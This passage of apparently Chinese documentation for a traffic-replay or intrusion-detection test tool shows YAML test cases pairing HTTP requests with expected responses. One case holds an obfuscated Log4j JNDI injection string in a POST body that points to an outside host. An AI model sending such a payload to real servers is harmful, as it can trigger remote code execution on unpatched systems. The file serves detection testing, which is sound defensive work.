 ```yaml
        req_data: |
          GET /details?id=1 HTTP/1.1
          Host: 121.161.72.131
          Content-Length: 0
      response:
        format: plain
        resp_data: |
          HTTP/1.1 200 OK
          Server: nginx/1.22.0
          Date: Tue, 22 Apr 2025 03:22:20 GMT
          Content-Type: text/html
          Content-Length: 111
          Connection: close

          <html>
          <head><title></title></head>
          <body>
            repsonse ok
          </body>
          </html>
```

### 7. 远程命令执行示例 (rce_fail_http_1.yaml)

Log4j漏洞模拟配置：

```yaml
info:
  name: 远程命令执行用例
  description: 测试用例
http:
  data:
    - description: "log4j漏洞用例"
      ip_pair:
        src_ip: 22.33.44.55
        src_port: RANDOM
        dst_ip: 172.168.100.2
        dst_port: 80  
      request:
        format: plain
        req_data: |
          POST /log/log.action HTTP/1.1
          Accept: */*
          Content-Length: 76
          Content-Type: application/x-www-form-urlencoded
          User-Agent: Mozilla/5.0 (iPad; CPU iPad OS 16_7_6 like Mac OS X) AppleWebKit/531.0 (KHTML, like Gecko) 

          id=${jndi:${upper:L}d${lower:A}${upper:P}://baidu.com.net/index}
      response:
        format: plain
        resp_data: |
          HTTP/1.1 404 Not Found
          Server: nginx/1.22.0
          Date: Tue, 22 Apr 2025 06:08:01 GMT
          Content-Type: text/html
          Content-Length: 145
          Connection: close

          <html>
          <head><title>404 Not Found</title></head>
          <body>
          <center><h1>404 Not Found</h1></center>
          </body>
```